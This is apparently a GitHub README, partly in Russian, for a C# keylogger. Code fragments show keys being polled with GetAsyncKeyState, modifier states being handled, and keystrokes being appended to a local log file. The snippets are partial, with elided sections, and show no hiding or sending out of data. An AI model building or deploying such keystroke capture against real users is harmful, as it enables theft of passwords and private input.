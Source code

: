 ﻿## KeyLogger

#### Demonstration:

![demonstration](demo.gif)

#### Specification:

1. Раз в ```n``` мс опрашиваются все клавиши.

```c#
Thread.Sleep(100);
for (int i = 0; i < 255; i++)
{
    int state = GetAsyncKeyState(i); // by key number returns the current state
    ...
}
```

2. Нажатые клавиши обрабатываются с учётом состояния клавиш
```Caps Lock```, ```Num Lock```, ```Shift```, ```Ctrl``` и т.д.

```c#
    ...
    if (state != 0) // pressed key
    {
        // ignore
        if (i == 0) continue; // idle
        if (((Keys)i) == Keys.LButton ||
            ((Keys)i) == Keys.RButton ||
            ((Keys)i) == Keys.MButton ... ) continue;
        ...
```

3. Результат логируется.

```c#
    ...
    // logging
    if (buf.Length > 5) // minimize disk operations
    {
        File.AppendAllText("keylogger.log", buf);
        buf = "";
    }
...
```
